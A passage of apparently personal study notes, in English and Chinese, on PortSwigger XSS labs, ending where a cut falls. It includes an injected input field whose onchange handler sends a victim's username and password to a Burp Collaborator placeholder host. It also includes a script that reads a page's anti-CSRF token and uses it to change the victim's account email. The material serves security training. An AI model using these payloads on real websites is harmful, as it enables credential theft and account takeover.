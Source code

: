 lab:

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

## Exploiting cross-site scripting to perform [CSRF](https://portswigger.net/web-security/csrf)

This type of exploit is typically referred to as [cross-site request forgery](https://portswigger.net/web-security/csrf) (CSRF), which is slightly confusing because CSRF can also occur as a standalone vulnerability. 

当CSRF作为独立漏洞出现时，可以使用**anti-CSRF**令牌等策略对其进行修补。但是，**如果存在XSS漏洞，则anti-CSRF令牌不提供任何保护**。

```html
lab：
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

- **XMLHttpRequest.open()** 方法初始化一个请求。该方法要从JavaScript代码使用

  xhrReq.open(method, url, async（true）, user（null）, password（null）);

  async 是否异步执行操作

  默认为true。如果值为false，send()方法直到收到答复前不会返回

- XMLHttpRequest.send(body) 方法用于发送 HTTP 请求。如果是异步请求（默认为异步请求），则此方法会在请求发送后立即返回；如果是同步请求，则此方法直到响应到达后才会返回

- *XMLHttpRequest*.onload = *callback*; 请求成功完成时触发。

# Cross-site scripting contexts

When testing for [reflected](https://portswigger.net/web-security/cross-site-scripting/reflected) and [stored](https://portswigger.net/web-security/cross-site-scripting/stored) [XSS](https://portswigger.net/web-security/cross-site-scripting), a key task is to identify the XSS context:
